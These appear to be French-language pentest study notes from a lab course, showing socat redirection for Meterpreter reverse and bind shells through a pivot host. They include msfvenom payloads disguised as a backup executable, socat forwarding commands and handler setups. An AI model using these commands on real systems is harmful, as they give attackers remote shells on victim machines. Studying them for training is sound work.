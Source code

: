 # Socat Redirection with a Reverse Shell and Bind Shell

{% hint style="info" %}
Socat est un outil de relais bidirectionnel qui peut créer des sockets entre deux canaux réseau indépendants sans utiliser de tunnel SSH. Il agit comme un redirigeur qui peut écouter sur une adresse et un port, puis transmettre ces données vers une autre adresse IP et un autre port. Nous pouvons démarrer l'écouteur de Metasploit en utilisant la même commande mentionnée dans la dernière section sur notre machine d'attaque, puis exécuter Socat sur le serveur Ubuntu.
{% endhint %}

#### <mark style="color:green;">Démarrage de l'écouteur Socat</mark>

```bash
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

#### <mark style="color:green;">Création du Payload Windows</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
{% endcode %}

#### <mark style="color:green;">Démarrage de la Console Metasploit</mark>

```bash
mrroboteLiot@htb[/htb]$ sudo msfconsole
```

#### <mark style="color:green;">Configuration et Démarrage du Multi/Handler</mark>

```bash
msf6 > use exploit/multi/handler
```

```bash
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run
```

```bash
[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

```bash
meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

***

## <mark style="color:red;">Socat Redirection with a Bind Shell</mark>

{% hint style="warning" %}
Comme avec le **reverse shell socat**, on peut aussi créer un **bind shell redirector**. Contrairement aux reverse shells qui se connectent du serveur Windows vers le serveur Ubuntu pour être redirigés vers notre hôte d’attaque, le bind shell fait que le serveur Windows ouvre un **listener** sur un port spécifique. On peut générer un payload bind shell pour Windows et l’exécuter sur la cible. Ensuite, on crée un redirector socat sur le serveur Ubuntu pour écouter les connexions entrantes du bind handler Metasploit et les transférer vers le bind shell sur la cible Windows.
{% endhint %}

![](https://academy.hackthebox.com/storage/modules/158/55.png)

<mark style="color:green;">**Creating the Windows Payload**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```
{% endcode %}

<mark style="color:green;">**Starting Socat Bind Shell Listener**</mark>

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)

<mark style="color:green;">**Configuring & Starting the Bind multi/handler**</mark>

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

We can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.
